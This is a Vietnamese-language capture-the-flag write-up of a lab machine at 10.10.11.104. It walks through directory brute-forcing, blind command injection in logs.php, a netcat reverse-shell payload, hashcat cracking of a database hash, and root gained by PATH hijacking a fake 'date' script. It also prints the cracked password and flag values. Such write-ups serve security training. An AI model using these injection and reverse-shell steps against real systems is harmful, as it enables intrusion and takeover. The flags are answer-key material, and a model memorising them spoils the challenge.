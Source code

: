 # ENUMURATE

sai nmap de scan port nao dang mo tren server 

``` nmap -T4 -sC -sV -Pn 10.10.11.104 -oN nmap.txt```

2 port dang mo la 22 (ssh) va 80(http) webserver dang su dung la apache

sai gobuster de brute thu muc


``` gobuster dir -u http://10.10.11.104/ -w /usr/share/wordlists/dirbuster/directory-list-lowercase-2.3-medium.txt -x "php" ```

```
  /index.php            (Status: 302) [Size: 2801] [--> login.php]
  /download.php         (Status: 302) [Size: 0] [--> login.php]   
  /login.php            (Status: 200) [Size: 2224]                
  /files.php            (Status: 302) [Size: 4914] [--> login.php]
  /header.php           (Status: 200) [Size: 980]                 
  /nav.php              (Status: 200) [Size: 1248]                
  /footer.php           (Status: 200) [Size: 217]                 
  /css                  (Status: 301) [Size: 310] [--> http://10.10.11.104/css/]
  /status.php           (Status: 302) [Size: 2968] [--> login.php]              
  /js                   (Status: 301) [Size: 309] [--> http://10.10.11.104/js/] 
  Progress: 2168 / 415288 (0.52%)                                              
  /logout.php           (Status: 302) [Size: 0] [--> login.php]                 
  /accounts.php         (Status: 302) [Size: 3994] [--> login.php]              
  /config.php           (Status: 200) [Size: 0]              

```



# EXPLOIT

su dung curl de tao acc tai page accounts.php

``` curl -XPOST http://10.10.11.104/accounts.php -d "username=d47&password=d47&confirm=d47" ```

login vao ta thay

co file backup.zip => download => doc source => file logs.php co loi blind command injection

``` $output = exec("/usr/bin/python /opt/scripts/log_process.py {$_POST['delim']}"); ```

tao mot reverse shell 

``` payload: delim=comma;nc -e /bin/bash ip port; ```
``` local: nc -nlvp port ```

nhung ko co quyen de doc file user.txt, nen can phai dang nhap vao voi quyen m4lwhere 

cho file config.php => co chua username vs password => connect vao mysql 

mysql -u root -p (password trong file config)

tim duoc password cua m4lwhere o trong database 

$1$🧂llol$DQpmdvnb7EeuO6UaqRItf.

crack password cua m4lwhere sai hashcat
hashcat -m 500 -a 0 -o cracked.txt hash /usr/share/wordlists/rockyou.txt
```
  -m: loai hash dung de crack
  -a : loai attack 0, co nghia la su dung dictionary attack
  -o: output cua password da duoc crack
```

password: ilovecody112235!

nmap ban dau ta biet duoc la co 2 port dang mo la ssh, http , lay username, password login vao

user.txt => dc1e07036f5db6e73dcca8b99e820885

loi dung path injection de leo quyen thanh root

ta thay trong file script no dang su dung lenh la gzip, date => co the chon 1 trong 2 de leo quyen root

ta su dung date de tao reverse shell de chiem quyen root
```
  b1: cd /tmp => echo "nc -e /bin/bash ip port" > date
  b2: cap quyen thuc thi cho file: chmod +x date
  b3: dua path cua file date vao $PATH : export PATH:/tmp:$PATH
  b4: sudo file_script => chiem duoc quyen root 
```

root.txt => e85ef00100f1c552535b5123979535bb
